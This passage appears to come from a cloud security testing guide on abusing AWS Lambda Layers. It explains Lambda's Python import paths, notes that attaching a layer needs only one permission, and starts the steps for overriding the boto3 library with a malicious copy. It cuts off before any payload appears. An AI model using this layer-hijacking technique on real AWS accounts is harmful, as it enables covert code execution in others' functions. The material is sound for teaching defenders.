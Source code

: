 #### Introduction

****[**Lambda Layers**](https://docs.aws.amazon.com/lambda/latest/dg/configuration-layers.html) allows to include **code** in your lamdba function but **storing it separately**, so the function code can stay small and **several functions can share code**.

Inside lambda you can check the paths from where python code is loaded with a function like the following:

```python
import json
import sys

def lambda_handler(event, context):
    print(json.dumps(sys.path, indent=2))
```

These are the places:

1. /var/task
2. /opt/python/lib/python3.7/site-packages
3. /opt/python
4. /var/runtime
5. /var/lang/lib/python37.zip
6. /var/lang/lib/python3.7
7. /var/lang/lib/python3.7/lib-dynload
8. /var/lang/lib/python3.7/site-packages
9. /opt/python/lib/python3.7/site-packages
10. /opt/python

For example, the library boto3 is loaded from `/var/runtime/boto3` (4th position).

#### Exploitation

**Attaching a layer to a function** only requires the `lambda:UpdateFunctionConfiguration` permission and **layers can be shared cross-account**. We also would need to know **what libraries they are using**, so we can override them correctly, but in this example, we’ll just **assume the attacked function is importing boto3**.

Just to be safe, we’re going to use Pip to install the same version of the boto3 library from the Lambda runtime that we are targeting (Python 3.7), just so there is nothing different that might cause problems in the target function. That runtime currently uses boto3 version 1.9.42.&#x20;

With the following code, we’ll install boto3 version 1.9.42 and its dependencies to a local "lambda\_layer" folder:

```
pip3 install -t ./lambda_layer boto3==1.9.42
```

Next, we will open `/lambda_layer/boto3/__init__.py` and add the malicious code. The payload we will be adding looks like this:
